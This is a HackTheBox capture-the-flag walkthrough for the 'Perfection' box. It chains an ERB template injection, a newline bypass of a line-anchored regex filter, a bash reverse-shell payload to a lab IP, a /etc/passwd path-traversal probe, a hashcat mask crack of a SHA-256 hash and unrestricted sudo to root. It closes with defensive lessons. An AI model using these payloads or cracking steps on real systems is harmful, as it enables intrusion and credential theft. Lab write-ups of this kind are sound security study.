

<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Ubuntu 22.04), **Difficulty:** Easy, **Released:** 2024-03-09, **IP:** `10.10.11.253` , `perfection.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Ruby **Sinatra** app on nginx, a "Weighted Grade Calculator".
2. The `category` field is vulnerable to **ERB Server-Side Template Injection**. A regex filter blocks obvious payloads, but it only checks the first line, so a URL-encoded newline (`%0a`) smuggles the payload past it. RCE as **`susan`**.
3. `/var/mail/susan` reveals the site's password policy: `<name>_nohaxplz<10 digits>`. The web app's SQLite DB (`pw.db`) holds susan's SHA-256 hash. Build a hashcat **mask** from the policy and crack it.
4. `susan` has full `sudo`, so `sudo su` gives root.

</div>

<div class="callout callout-key">

**Credentials and Flags**


| Where | Value |
| --- | --- |
| `susan` (mask-cracked from `pw.db`) | `susan_nohaxplz<digits>` (recovered by mask attack) |
| `user.txt` | `/home/susan/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

Perfection is a tight two-step box about **filter bypass**. The SSTI itself is textbook ERB, but the app tries to defend with a regex allowlist on the input, and the whole foothold is realising the regex is anchored to a single line so a newline defeats it. The privesc is a nice piece of **targeted password cracking**: you do not brute force blindly, you read the organisation's own password policy out of a mail file, turn it into a hashcat mask, and the keyspace collapses to something crackable in seconds. Then `sudo` is wide open.

Related SSTI boxes: [Bolt](/writeups/hackthebox/linux/medium/bolt/), [Rabbit Store](/writeups/tryhackme/linux/medium/rabbit-store/), [Theseus](/writeups/tryhackme/linux/insane/theseus/), [Luanne](/writeups/hackthebox/bsd/medium/luanne/). Related "read the policy, build a mask, crack": this is the standout example. Related unrestricted `sudo`: [Blocky](/writeups/hackthebox/linux/easy/blocky/).

---

## Full Walkthrough

### Reconnaissance

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
```

The site turned out to be a simple grade calculator: you enter category names, weights, and grades, and it hands back a weighted average. I poked around for hidden endpoints and additional functionality but didn't turn up anything beyond the one form, so the calculator itself was clearly where the actual attack surface lived.

### Path-traversal probe (dead end, but informative)

Since I couldn't immediately tell what was running under the hood, I tried an old favorite first: [Exploit-DB 5215](https://www.exploit-db.com/exploits/5215) describes a path traversal in older Ruby WEBrick servers. That didn't pan out here, but the attempt wasn't wasted, because the 404 page it triggered handed me a very useful piece of fingerprinting information:

```bash
curl -vv 'http://perfection.htb/..%5c..%5c..%5c/etc/passwd'
```

```html
HTTP/1.1 404 Not Found
Server: nginx
X-Cascade: pass

<h2>Sinatra doesn't know this ditty.</h2>

<pre>get '/etc/passwd' do
  "Hello World"
end</pre>
```



That error page confirmed a **Sinatra (Ruby)** backend running on `127.0.0.1:3000` behind the nginx front end, which was exactly the lead I needed. Sinatra defaults to **ERB** templates for rendering, and any time I see Ruby plus user input reaching a template, SSTI immediately jumps to the top of my list to try.

### SSTI in the category field, with a filter bypass

<div class="callout callout-note">

**The vulnerability and the bypass**

Digging into how the calculator builds its response, I confirmed it interpolates each `category` value straight into an ERB string before rendering, so `<%= 7*7 %>` in a category name comes back as `49`, textbook SSTI. The app does validate the field, but against a regex roughly like `/^[A-Za-z0-9 ]+$/`, which rejects `<`, `%`, `=` outright. What makes that validation breakable is a Ruby quirk I've learned to check for on every SSTI target: `=~` / `match` without the `/m` flag treats `^` and `$` as start and end of *line*, not start and end of the whole string, so the check only really guards the first line of input. URL-encoding a newline into the parameter (`category1=Math%0a<%25%3d`...`%25>`) pushes my actual payload onto line two, right where the regex never looks. So the request body ends up like:
```
category1=math%0A<%25%3d`id`%25>&gradeArr1=100&weightArr1=100&...
```
and the response contains the command output. Swap `id` for a reverse shell:
```
<%= `bash -c 'bash -i >& /dev/tcp/10.10.14.5/9001 0>&1'` %>
```

</div>

That lands a shell as `susan`. `user.txt` is in her home.

### Privilege Escalation, policy-guided hash crack

With a shell as `susan`, I went looking through the usual local mail spool locations out of habit, since sysadmin announcements about password resets or policy changes turn up there more often than people expect. Sure enough, `/var/mail/susan` (or `/var/spool/mail/susan`) had exactly that kind of note waiting for me:

```
From: Tina the Sysadmin
Due to our recent security overhaul ... all passwords must follow this format:
{firstname}_{randomly generated string of 10 digits}
e.g. susan_nohaxplz1234567890
```

Knowing the exact password format is only useful if I also have a hash to crack it against, so I went hunting for wherever the Sinatra app actually stores its user records. It turned out to be a local SQLite database sitting under the web root:

```bash
find / -name '*.db' 2>/dev/null
sqlite3 /var/www/*/pw.db 'select * from users'
# susan | abeb6f8eb5..." (SHA-256 of the password)
```

<div class="callout callout-note">

**Turning the policy into a mask**

The password is `susan_nohaxplz` plus exactly ten digits, so the keyspace is only 10^10. hashcat mode 1400 (raw SHA-256) with a mask:
```bash
hashcat -m 1400 -a 3 susan.hash 'susan_nohaxplz?d?d?d?d?d?d?d?d?d?d'
```
On a modern GPU this is a few seconds. Without the mail file you would never brute force 10^10, which is exactly why leaking a password policy matters.

</div>

The mask attack ran to completion almost immediately, recovering `susan`'s real password. With valid credentials in hand rather than just a shell, checking her `sudo` rights was the natural next move:

```console
susan@perfection:~$ sudo -l
User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~$ sudo su
root@perfection:~# cat /root/root.txt
```

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/susan/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons and Takeaways

- **Do not allowlist with a line-anchored regex.** Use `\A`/`\z` in Ruby, not `^`/`$`, and validate the whole string. Better: never interpolate user input into a template at all, pass it as a locals hash.
- **Sinatra and Rails default to ERB**, so a Ruby stack plus reflected input means test SSTI early (`<%= 7*7 %>`).
- **Password policies are secrets.** A mail telling everyone the exact format turns an uncrackable hash into a ten second job.
- **Store password hashes with a slow KDF** (bcrypt/argon2), not raw SHA-256, so a known-format mask still costs real time.
- **Scope `sudo`.** `(ALL) ALL` on a service account is a free root.

---

## Related Writeups

- **SSTI (ERB / Jinja2):** [Bolt](/writeups/hackthebox/linux/medium/bolt/), [Rabbit Store](/writeups/tryhackme/linux/medium/rabbit-store/), [Theseus](/writeups/tryhackme/linux/insane/theseus/), [Luanne](/writeups/hackthebox/bsd/medium/luanne/)
- **WAF / input-filter bypass:** [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/) (whitespace), [TwoMillion](/writeups/hackthebox/linux/easy/twomillion/)
- **Mask / rule based cracking:** [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/), [Previse](/writeups/hackthebox/linux/easy/previse/)
- **Unrestricted `sudo` to root:** [Blocky](/writeups/hackthebox/linux/easy/blocky/)

## References

- PayloadsAllTheThings, SSTI (Ruby ERB) <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection>
- hashcat mask attack <https://hashcat.net/wiki/doku.php?id=mask_attack>
- Sinatra templates <https://sinatrarb.com/intro.html#Views%20/%20Templates>
- The SSTI filter bypass and the final privilege escalation were cross-referenced against public writeups for this box.
